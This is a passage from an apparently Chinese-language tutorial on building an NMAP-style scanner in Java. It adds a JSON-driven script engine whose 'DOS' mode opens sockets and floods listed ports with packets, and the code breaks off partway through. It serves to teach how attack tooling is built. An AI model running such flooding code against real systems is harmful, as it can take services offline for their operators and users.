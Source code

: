 在这种情况下，我们决定使用 GSON 库作为解析目标 JSON 的引擎。

现在，我们必须使之成为可能，如果在执行我们的 NMAP 的 main 方法时，我们检测到有一个标志指示一个脚本的执行，我们将不得不跳转到执行它，而不做一个完整的 TCP/UDP 扫描。为此，我们将读取 main 方法的输入参数并调用一个名为 ScriptEngine 的外部类，在这里我们将执行需要执行的内容:

```
public static void main(String[] args) { 

 // Check if a command line argument exists, if it does it should be the script 
  if (args.length > 0) { 

    Gson gson = new Gson(); 

    // Then try to read the script, in this case we are going to have it in 
    // C:\Users\Public 
    ScriptProperties scriptProperties = null; 
    try { 
     scriptProperties = gson.fromJson(new FileReader("C:\\Users\\Public\\scriptPOC.json"), 
ScriptProperties.class); 
    } catch (JsonSyntaxException | JsonIOException | FileNotFoundException e) { 
      e.printStackTrace(); 
    } 
      // Then we call the engine for it to execute the Script 
      ScriptEngine scriptEngine = new ScriptEngine(); 
      scriptEngine.executeScript(scriptProperties); 

} else { 
    // In here it would go the normal TCP and UDP port detection  we saw before this guide 
…...
```

在 ScriptEngine 类中，我们将只为这个 POC 编写基础程序。我们要做的是检查所有的值，并在这种情况下执行 DOS 类型的攻击，发送数据包，告诉我们 JSON:

```
import java.io.DataOutputStream; 
import java.io.IOException; 
import java.net.Socket; 
import java.util.ArrayList; 
import java.util.Arrays; 
import java.util.List; 

public class ScriptEngine { 

  public void executeScript(ScriptProperties scriptProperties) { 

    System.out.println("We are going to execute the script with name: " + scriptProperties.getName()); 

    // The only type of script we admit as of now 
    if (scriptProperties.getType().equals("DOS")) { 

      // As the ports are separated by commas, we read them into a List. 
      List<String> ports = Arrays.asList(scriptProperties.getPorts().split("\\s*,\\s*")); 

      // And if it is a TCP scan... 
      if (scriptProperties.getProtocol().equals("TCP")) { 

      // We start port by port 
      for (String port : ports) { 
        System.out.println("Attacking port " + port); 

        // Opening a connections and sending as much packets as the script tells us in the JSON 
        Socket socket = null; 
        DataOutputStream dataOutput = null; 

        try { 
```